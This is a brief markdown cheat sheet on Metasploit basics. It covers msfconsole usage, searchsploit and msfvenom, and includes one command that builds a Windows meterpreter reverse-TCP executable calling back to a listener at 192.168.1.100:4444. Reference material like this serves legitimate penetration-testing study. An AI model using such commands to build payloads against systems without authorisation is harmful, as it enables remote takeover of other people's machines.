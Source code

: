## Basic usage
- Run the command `msfconsole` to open Metasploit.
- Use `search <vulnerability>` to find different exploits.
- Choose the one you want to use with `use <number>`.
- Use `show options` to select the payload.
- Choose the payload with `set payload <number>`.
- Set the necessary parameters seen with `show options` using `set <parameter> <value>`. Only the ones marked with **yes*** are mandatory.
- To execute, use `run`.
## searchsploit
**SearchSploit** is used to search and locate known exploits and vulnerabilities in a wide variety of software and systems. It utilizes the Exploit Database, which contains an extensive collection of exploits, shellcodes, and security-related references.
```bash
searchsploit <whatever>
```

## msfvenom
**msfvenom** is primarily used for generating payloads, which are pieces of code that can be delivered to a target system to exploit vulnerabilities or gain unauthorized access.

```bash
#target_info = java, php, python, windows, ubuntu, etc
msfvenom -l payloads | grep <target_info>
msfvenom -p PAYLOAD [OPTIONS] -f FORMAT [OTHER_OPTIONS]
```
- Example:
```bash
#-f = file extension
#-o = file name
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o payload.exe
#if you want to know the payload options use:
msfvenom -p <payload> --list-options
```